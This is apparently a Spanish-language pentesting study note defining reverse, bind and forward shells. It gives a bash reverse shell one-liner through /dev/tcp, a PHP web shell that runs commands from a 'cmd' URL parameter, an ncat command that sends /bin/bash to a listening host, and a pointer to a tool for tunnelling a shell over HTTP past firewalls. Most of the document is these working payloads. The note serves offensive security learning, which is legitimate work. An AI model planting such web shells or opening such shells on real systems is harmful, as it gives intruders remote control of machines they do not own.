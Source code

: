 #Explotacion #Shell
## Reverse Shell
#### Definición

>Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.
___________________________________

##### .SH

````shell
#!/bin/bash

bash -i >& /dev/tcp/<IP>/443 0>&1 


````


## Bind Shell

#### Definición

>Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.
____________________



## Forward Shell

#### Definición

>Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.
>______________________

Para la ejecución de este tipo de shell podemos cargar un archivo con la extensión `.php`, que nos permita la ejecución remota de comandos en el servidor.

```php
<?
        echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

Una vez lo ejecutamos podemos ejecutar comandos desde la web usando `?cmd=` y enviarnos una shell a nuestra maquina en la que estamos en escucha usando el comando `ncat -e /bin/bash <IP_local> <Puerto>`

No nos entablara conexión por que hay reglas de firewall de por medio, usaremos la herramienta https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py donde tendremos que hacer un único cambio en la ruta del archivo.

Deberemos de cambiar el formato de la shell quitando las etiquetas preformateadas  del código `.php`

```php
<?
        echo shell_exec($_GET['cmd']);
?>
```
